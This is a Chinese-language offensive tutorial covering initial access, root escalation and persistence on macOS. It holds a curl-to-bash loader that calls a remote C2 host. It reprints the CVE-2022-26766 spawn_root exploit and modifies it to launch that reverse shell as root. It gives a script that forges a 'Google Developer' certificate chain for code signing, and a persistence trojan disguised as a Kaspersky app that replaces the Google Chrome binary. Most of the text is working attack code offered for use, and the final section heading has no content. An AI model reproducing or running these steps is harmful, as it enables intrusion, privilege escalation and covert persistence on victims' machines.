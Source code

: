 # MacOS Rooted 权限上线权限维持

[toc]



## 1. MacOS shell

### 1.1 CrossC2 制作一个 curl script

<img src="/Users/reborn/Library/Application Support/typora-user-images/image-20220707140536240.png" alt="image-20220707140536240" style="zoom:50%;" />

上线命令如下：

```bash
curl -A O -o- -L http://120.xx.xx.xxx:123456/a | bash -s
```



## 2. MacOS Rootd

### 2.1 漏洞利用：CVE-2022-26766 权限提升

Security Update 2022-004 Catalina, watchOS 8.6, macOS Big Sur 11.6.6, macOS Monterey 12.4

漏洞利用 Demo

https://github.com/zhuowei/CoreTrustDemo

源码：

https://github.com/zhuowei/CoreTrustDemo/blob/main/spawn_root.m

```objective-c
@import Darwin;
extern char** environ;

#define POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE 1
int posix_spawnattr_set_persona_np(const posix_spawnattr_t* __restrict, uid_t, uint32_t);
int posix_spawnattr_set_persona_uid_np(const posix_spawnattr_t* __restrict, uid_t);
int posix_spawnattr_set_persona_gid_np(const posix_spawnattr_t* __restrict, uid_t);

int main(int argc, char** argv) {
  if (argc < 2) {
    fprintf(stderr, "usage: spawn_root <command> <to> <run>\n");
    return 1;
  }
  posix_spawnattr_t attr;
  posix_spawnattr_init(&attr);
  posix_spawnattr_set_persona_np(&attr, /*persona_id=*/99, POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE);
  posix_spawnattr_set_persona_uid_np(&attr, 0);
  posix_spawnattr_set_persona_gid_np(&attr, 0);

  int pid = 0;
  int ret = posix_spawnp(&pid, argv[1], NULL, &attr, &argv[1], environ);
  if (ret) {
    fprintf(stderr, "failed to exec %s: %s\n", argv[1], strerror(errno));
    return 1;
  }
  waitpid(pid, nil, 0);
  return 0;
}
```

源码使用了`posix_spawnp` 函数，通过这个函数可以创建一个进程，从而执行任意命令。

官方说明：

https://developer.apple.com/library/archive/documentation/System/Conceptual/ManPages_iPhoneOS/man2/posix_spawnp.2.html

重要的是第二个参数和第五个参数。

该函数的第二个参数为命令文件或者命令路径。

该函数的第五个参数，是一个指向以空结尾的字符指针数组的**指针**，该数组指向以空结尾的字符串。

修改成反弹 CS Shell 后的源码

```objective-c
@import Darwin;
extern char** environ;

#define POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE 1
int posix_spawnattr_set_persona_np(const posix_spawnattr_t* __restrict, uid_t, uint32_t);
int posix_spawnattr_set_persona_uid_np(const posix_spawnattr_t* __restrict, uid_t);
int posix_spawnattr_set_persona_gid_np(const posix_spawnattr_t* __restrict, uid_t);

int main(int argc) {
  posix_spawnattr_t attr;
  posix_spawnattr_init(&attr);
  posix_spawnattr_set_persona_np(&attr, /*persona_id=*/99, POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE);
  posix_spawnattr_set_persona_uid_np(&attr, 0);
  posix_spawnattr_set_persona_gid_np(&attr, 0);

  char *argv[]={
    "sh",
    "-c",
    "curl -A O -o- -L http://120.xx.xx.xxx:123456/a | bash -s",
    NULL
  };

  int pid = 0;
  int ret = posix_spawnp(&pid, argv[0], NULL, &attr, &argv[0], environ);
  if (ret) {
    return 1;
  }
  waitpid(pid, nil, 0);
  return 0;
}
```

### 2.2 编译提权源码脚本

https://github.com/zhuowei/CoreTrustDemo/blob/main/build_spawn_root.sh

```bash
#!/bin/sh
set -e
clang -o spawn_root_x86 -target x86_64-apple-macos12 -Os -fmodules spawn_root.m
clang -o spawn_root_arm64 -target arm64-apple-macos12 -Os -fmodules spawn_root.m
lipo -create -output spawn_root spawn_root_x86 spawn_root_arm64
codesign -s "Worth Doing Badly Developer ID" -f --entitlements spawn_root.entitlements spawn_root
```

`clang`  命令使用`clang`编译器编译 spawn_root.m 源码文件

`lipo` 命令用来合并静态库

```bash
# lipo -create 静态库存放路径1  静态库存放路径2 ...  -output 整合后存放的路径
```

`entitlements` 文件全称为 code signing entitlements，entitlements 后缀的文件作用是为App授予特定的能力以及一些安全方面的权限，是一个plist 文件。

`codesign` 命令用来签名，`-s` 参数的内容为根据制作好的`p12`证书文件的内容来进行安装，`-f` 跟上 entitlements 文件。

### 2.3 制作 p12 证书

可以使用直接制作好的`p12` 证书

https://github.com/zhuowei/CoreTrustDemo/blob/main/badcert/dev_certificate.p12

双击安装即可。

自行生成一个`p12` 可以使用如下生成脚本

https://github.com/zhuowei/CoreTrustDemo/blob/main/badcert/makecerts.sh

```bash
set -e
export PATH="/usr/local/opt/openssl/bin:$PATH"
	#-addext "1.2.840.113635.100.6.2.6=DER:0500" \

true && openssl req -newkey rsa:2048 -nodes -keyout root_key.pem -x509 -days 3650 -out root_certificate.pem \
	-subj "/C=CA/O=Google Developer/OU=Google Developer Certification Authority/CN=Google Developer Root CA" \
	-addext "1.2.840.113635.100.6.22=DER:0500" \
	-addext "basicConstraints=critical, CA:true" -addext "keyUsage=critical, digitalSignature, keyCertSign, cRLSign"
true && openssl req -newkey rsa:2048 -nodes -keyout codeca_key.pem -out codeca_certificate.csr \
	-subj "/C=CA/O=Google Developer/OU=Google Developer Certification Authority/CN=Google Developer ID 1337 Certification Authority" \
	-addext "1.2.840.113635.100.6.22=DER:0500" \
	-addext "basicConstraints=critical, CA:true" -addext "keyUsage=critical, keyCertSign, cRLSign"
true && openssl x509 -req -CAkey root_key.pem -CA root_certificate.pem -days 3650 \
	-in codeca_certificate.csr -out codeca_certificate.pem -CAcreateserial -copy_extensions copyall
true && openssl req -newkey rsa:2048 -nodes -keyout dev_key.pem -out dev_certificate.csr \
	-subj "/C=CA/O=Google Developer/OU=Google Developer Certification Authority/CN=Google Developer ID 1337" \
	-addext "basicConstraints=critical, CA:false" \
	-addext "keyUsage = critical, digitalSignature" -addext "extendedKeyUsage = codeSigning" \
	-addext "1.2.840.113635.100.6.22=DER:0500"
true && openssl x509 -req -CAkey codeca_key.pem -CA codeca_certificate.pem -days 3650 \
	-in dev_certificate.csr -out dev_certificate.pem -CAcreateserial -copy_extensions copyall
true && cat codeca_certificate.pem root_certificate.pem >certificate_chain.pem
true && /usr/bin/openssl pkcs12 -export -in dev_certificate.pem -inkey dev_key.pem -certfile certificate_chain.pem \
	 -passout pass:password \
	-out dev_certificate.p12 -name "Google Developer ID 1337"
```

由于 MacOS 自带的 `openssl` 版本较低，所以需要更新到 OpenSSL 3.0.3 以上。

相关命令

```bash
$ brew update
$ brew install openssl
$ brew link --force openssl
echo 'export PATH="/usr/local/opt/openssl@3/bin:$PATH"' >> ~/.zshrc
export LDFLAGS="-L/usr/local/opt/openssl@3/lib" >> ~/.zshrc
export CPPFLAGS="-I/usr/local/opt/openssl@3/include" >> ~/.zshrc
export PKG_CONFIG_PATH="/usr/local/opt/openssl@3/lib/pkgconfig" >> ~/.zshrc
$ source ~/.zshrc
$ openssl version -a
```

安装`p12` 需要密码在此指定，此处密码为 `password`

```bash
true && /usr/bin/openssl pkcs12 -export -in dev_certificate.pem -inkey dev_key.pem -certfile certificate_chain.pem \
	 -passout pass:password \
```

证书名称在此指定

```bash
-out dev_certificate.p12 -name "Google Developer ID 1337"
```

证书安装完成即可编译提权源代码。

## 3. MacOS 权限维持

### 3.1 通过复制替换常用应用进行权限维持

木马目录结构

```bash
$ tree kaspersky-mac.app
kaspersky-mac.app
└── Contents
    └── MacOS
        ├── kaspersky-mac
        └── main

2 directories, 2 files
```

main 为木马，kaspersky-mac sh脚本内容

```bash
#!/bin/bash
"`dirname "$0"`"/main &
mv  "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" "/Applications/Google Chrome.app/Contents/MacOS/Google  Chrome"
cp "`dirname $0`"/main '/Applications/Google Chrome.app/Contents/MacOS/Google Chrome ltd'
touch '/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'
sa="#!/bin/bash"
sb="\"\`dirname \"\$0\"\`\"/Google\ Chrome\ ltd &"
sc="\"\`dirname \"\$0\"\`\"/Google\ \ Chrome &"
echo $sa >> "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome"
echo $sb >> "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome"
echo $sc >> "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome"
```



### 3.2 Rooted 权限下的权限维持

